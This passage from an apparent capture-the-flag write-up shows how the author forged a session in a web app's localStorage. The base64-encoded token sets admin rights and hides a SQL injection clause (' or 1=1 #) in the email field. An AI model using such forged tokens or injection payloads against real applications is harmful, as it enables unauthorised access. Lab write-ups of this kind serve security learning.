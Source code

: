 {% highlight javascript %}
localStorage.setItem('vuex', btoa("\"{\\\"sessid\\\":\\\"eyJhZG1pbiI6IDEsICJ1c2VyaWQiOiAxLCAiZW1haWwiOiAieWFrdWhpdG9Abm90LnlvdXIuYnVzaW5lc3MnIG9yIDE9MSAjICIsICJGTEFHMiI6ICJmYzIzNWVkZmU5MTliODBiNGU4N2E3ZWY4NTJmMWY0ZiJ9Cg==\\\",\\\"email\\\":\\\"yakuhito@not.your.business\\\",\\\"isAdmin\\\":true,\\\"userName\\\":\\\"yakuhio\\\"}\""))
{% endhighlight %}

To understand what I did, look at this screenshot from my browser's console:

<div>
<center><img src="/images/pa-webapp-ctf/client-login.png"></center>
</div>

The app stores some variables as a base64-encoded string. You can see the encoded JSON as the output for the 2nd command. The 3rd command updates the app's saved state, setting the seesion id to one that will get validated by the server. I also took the liberty of setting admin to true and changing the email/username, because only the session id is sent to the server (meaning that these changes are only reflected on the frontend). After refreshing the page, I got redirected to the IDE:

<div>
<center><img src="/images/pa-webapp-ctf/ide.png"></center>
</div>
